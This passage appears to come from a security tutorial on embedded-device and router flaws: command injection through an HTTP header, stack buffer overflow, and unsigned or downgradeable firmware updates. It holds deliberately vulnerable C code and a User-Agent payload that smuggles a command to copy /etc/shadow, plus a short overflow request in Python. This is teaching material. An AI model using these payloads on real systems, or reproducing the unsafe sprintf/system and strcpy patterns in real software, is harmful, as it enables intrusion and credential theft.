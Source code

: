**HTTP header injection:**

```c
// Vulnerable code:
void handle_user_agent(char *user_agent) {
    char cmd[512];
    sprintf(cmd, "echo %s >> /tmp/log", user_agent);
    system(cmd);
}

// Exploitation (User-Agent header):
User-Agent: test; cat /etc/shadow > /tmp/shadow.txt
```

### Buffer Overflows

**Stack-based overflow:**

```c
// Vulnerable code (httpd):
void process_url(char *url) {
    char buffer[256];
    strcpy(buffer, url);  // No bounds checking
    // ...
}

// Exploitation (send long URL):
# Python exploit:
payload = b"A" * 300
requests.get(f"http://router.ip/{payload}")
# Result: Crash (or RCE with proper exploit)
```

### Insecure Firmware Updates

**Unsigned firmware updates:**

```bash
# Firmware update without signature verification
# Attacker can upload malicious firmware

# Exploitation:
# 1. Modify legitimate firmware (inject backdoor)
# 2. Upload modified firmware via web interface
# 3. Device installs malicious firmware
```

**Firmware downgrade attacks:**

```bash
# If device allows downgrade to older, vulnerable firmware:
# 1. Upload old firmware with known vulnerabilities
# 2. Exploit old vulnerabilities
```

### Weak Cryptography
